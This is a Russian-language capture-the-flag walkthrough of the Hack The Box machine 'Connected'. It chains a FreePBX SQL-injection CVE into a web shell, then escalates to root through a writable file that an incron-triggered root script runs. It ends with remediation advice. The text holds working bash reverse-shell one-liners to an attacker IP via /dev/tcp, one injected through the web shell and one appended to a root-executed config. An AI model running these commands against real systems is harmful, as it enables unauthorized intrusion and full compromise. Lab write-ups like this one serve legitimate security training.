

# Connected

> **Дата:** 27.10.2026  
> **Целевой IP:** `10.129.129.171`  
> **Атакующий IP:** `10.10.17.178`  
> **Сложность:** Easy  
> **Платформа:** Hack The Box

В ходе выполнения лабораторной работы по тестированию на проникновение (HTB Connected) была обнаружена и успешно эксплуатирована цепочка уязвимостей, приведшая к полному компрометированию системы. Основной вектор атаки — **SQL-инъекция (CVE-2025-57819)** в административной панели FreePBX, позволившая выполнить произвольный код без аутентификации. Через веб-шелл был получен доступ к системе от имени пользователя `asterisk`. Повышение привилегий до **root** выполнено через механизм `incron`, отслеживающий изменения файлов, и скрипт `sysadmin_dahdi_restart`, выполняемый от имени суперпользователя.

**Ключевые уязвимости:**

- **CVE-2025-57819** — SQL-инъекция в FreePBX (endpoint module), приводящая к RCE без аутентификации
- **Небезопасная конфигурация incron** — выполнение скрипта от root при изменении файла, доступного для записи пользователю `asterisk`

---

## Разведка и анализ поверхности атаки

Первоначальное сканирование выявило веб-сервер на порту 80 с административной панелью FreePBX. Анализ версии показал наличие уязвимости **CVE-2025-57819**.

```bash
nmap -sV -sC 10.129.129.171
```



_Сканирование портов и определение версий сервисов на целевой машине._

```bash
echo "10.129.129.171 connected.htb" | sudo tee -a /etc/hosts
```

_Добавление записи в локальный файл hosts для привязки доменного имени к IP-адресу цели._

```bash
http://connected.htb
```



**Версия админки:** FreePBX 16.0.40.7

Эта версия имеет уязвимость [CVE-2025-57819](https://nvd.nist.gov/vuln/detail/cve-2025-57819).

## Эксплуатация: подтверждение уязвимости

Для эксплуатации был выбран публичный PoC от watchTowr, который подтверждает наличие SQL-инъекции и создает веб-шелл через внедрение cron-задачи.

[https://github.com/watchtowrlabs/watchTowr-vs-FreePBX-CVE-2025-57819](https://github.com/watchtowrlabs/watchTowr-vs-FreePBX-CVE-2025-57819)

```bash
git clone https://github.com/watchtowrlabs/watchTowr-vs-FreePBX-CVE-2025-57819.git
```

Эксплуатируем

```bash
cd watchTowr-vs-FreePBX-CVE-2025-57819
python3 watchTowr-vs-FreePBX-CVE-2025-57819.py -H http://connected.htb/
```

Подтвердился



_Успешное подтверждение уязвимости. Скрипт вывел путь к созданному веб-шеллу._

### Получение обратного шелла (Reverse Shell)

Запускаем слушатель на нашей машине:

```bash
nc -lvnp 4444
```

Отправляем запрос к веб-шеллу для инициализации обратного соединения:

```bash
curl -s "http://connected.htb/this-is-an-ioc-not-actually-watchTowr-k8skiz02bu.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.17.178/4444%200%3E%261%27"
```

![[Pasted image 20261027223020.png]]



_Успешное получение обратной оболочки от имени пользователя `asterisk`._

## Пост-эксплуатация и получение user-флага

```bash
cat /home/asterisk/user.txt
```
## Повышение привилегий (Privilege Escalation)

### Перечисление постэксплуатационных данных

Анализ конфигурации `incron` выявил механизм автоматического выполнения скриптов при изменении файлов:

```bash
cat /etc/incron.d/sysadmin
```



Было обнаружено, что `incron` отслеживает файл `/var/spool/asterisk/sysadmin/dahdi_restart` и при его изменении (`IN_CLOSE_WRITE`) выполняет скрипт `/usr/sbin/sysadmin_dahdi_restart` от имени пользователя **root**.

Дальнейший поиск файлов с правами записи в каталоге `/etc` показал:

```bash
find /etc -writable 2>/dev/null | grep -v "/etc/wanpipe\|/etc/asterisk\|/etc/schmooze" | head -20
```

Среди результатов был найден `/etc/dahdi/init.conf`, доступный для записи пользователю `asterisk`.

```bash
/etc/dahdi/init.conf
```



## Выявление первопричины

```bash
cat /etc/incron.d/*
```

Вывод подтвердил механизм: изменение файла `/var/spool/asterisk/sysadmin/dahdi_restart` приводит к выполнению скрипта, принадлежащего root.

```bash
/var/spool/asterisk/sysadmin/dahdi_restart IN_CLOSE_WRITE /usr/sbin/sysadmin_dahdi_restart
```





### Эксплуатация

Поскольку `/etc/dahdi/init.conf` доступен для записи и выполняется процессом от имени root, в него был добавлен фрагмент кода обратной оболочки:

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.17.178/4445 0>&1" &' >> /etc/dahdi/init.conf
```



Запускаем второй слушатель:

```bash
nc -lvnp 4445
```

Триггерим выполнение, изменяя отслеживаемый файл:

```bash
echo "restart" > /var/spool/asterisk/sysadmin/dahdi_restart
```

Через несколько секунд устанавливается новое соединение с правами **root**.



## Захват корневого флага

Получив root-доступ, получить последний флаг оказалось элементарно.

```bash
cat /root/root.txt
```

## Рекомендации по устранению уязвимостей

- **FreePBX (CVE-2025-57819):** Обновить FreePBX до версии **16.0.89** или выше. Ограничить доступ к административной панели по IP-адресам.
- **Небезопасная конфигурация incron:** Ограничить права записи на файлы, обрабатываемые `incron`, только для пользователя root. Убрать возможность записи в `/etc/dahdi/init.conf` для пользователя `asterisk`.
- **Принцип минимальных привилегий:** Проверить все скрипты, выполняемые от имени root через `incron`/`cron`, на предмет доступа к файлам, которые могут быть изменены непривилегированными пользователями.